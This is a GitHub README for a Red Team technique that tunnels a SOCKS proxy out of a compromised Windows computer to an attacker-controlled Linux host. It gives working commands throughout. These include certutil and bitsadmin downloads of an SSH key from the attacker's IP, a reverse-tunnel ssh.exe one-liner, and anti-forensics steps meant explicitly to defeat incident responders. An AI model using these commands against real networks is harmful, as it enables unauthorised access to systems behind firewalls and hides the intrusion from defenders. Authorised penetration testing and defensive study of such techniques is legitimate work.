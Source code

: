 # win-ssh-rvsproxy
Tunneling Socks proxy through Windows.

This document presents a Red Team approach for SSH tunneling to a Socks proxy on a compromised Windows computer from an external attacker-controlled Linux host.  How the Windows computer is compromised is not covered here; the assumption is that you have a way to run commands on the victim host.

The following diagram shows the scenario.  An external attacker system (A) is running sshd to allow tunnel creation, and will also run python SimpleHTTPServer to serve an ephemeral SSH key to allow the Windows computer (B) to log in.  The Windows target (B) will execute the built-in ssh.exe command line utility and create a Socks proxy, through which the attacker (A) can access other systems protected behind the firewall, such as the web server (C).

![alt text](https://github.com/billchaison/win-ssh-rvsproxy/blob/main/01.png)

**Preparing the attack host**<br />

* On host (A) create a disposable SSH key pair.  The key will be destroyed after use in order to prevent reuse by incident responders.
  `cd /root`
  `ssh-keygen -t rsa -b 2048 -N "" -f /root/temp_rsa -q`
  `cat /root/temp_rsa.pub >> /root/.ssh/authorized_keys && chmod 600 /root/.ssh/authorized_keys`
* On host (A) launch python simple HTTP server.  This will allow the victim computer (B) to dynamically fetch the temporary private SSH key to login and start the tunnel.
  `python -m SimpleHTTPServer 80`

**Start the proxy server**<br />

* On the victim Windows computer (B) you will need to find a way to copy the SSH private key to the user's `%tmp%` path in this example.  Two possibilities are as follows.
  `%SYSTEMROOT%\System32\bitsadmin.exe /transfer n http://192.168.1.242/temp_rsa %tmp%\temp_rsa`
  `%SYSTEMROOT%\System32\certutil.exe -urlcache -split -f http://192.168.1.242/temp_rsa %tmp%\temp_rsa`
* On the victim Windows computer (B) create the reverse proxy and tunnel.  Once connected to the attacker computer (A) the temporary key will be stripped from the authorized_keys file and the python web server will be terminated.  Also the private key stored on machine (B) under `%tmp%` will be deleted after the tunnel is destroyed by the attacker.  These are anti-forensics techniques to prevent incident responders from gaining access to your attacker machine (A).
  `%SYSTEMROOT%\System32\OpenSSH\ssh.exe -o StrictHostKeychecking=no -i %tmp%\temp_rsa -R localhost:1080 root@192.168.1.242 "grep -v -f /root/temp_rsa.pub /root/.ssh/authorized_keys > /root/.ssh/authorized_keys.bak && mv /root/.ssh/authorized_keys.bak /root/.ssh/authorized_keys && kill $(lsof -t -i:80) && bash" & del %tmp%\temp_rsa`

**Using the reverse proxy**<br />

From the attacker host (A) you can configure a browser to use the local Socks proxy on 127.0.0.1 port 1080.  You should now be able to access the protected web server (C) by going to `https://10.1.2.4`

Any other protected service behind the firewall could be accessed through Socks tunnel as long as the tools on the attacking machine (A) support Socks or you have proxychains configured to use 127.0.0.1 port 1080.
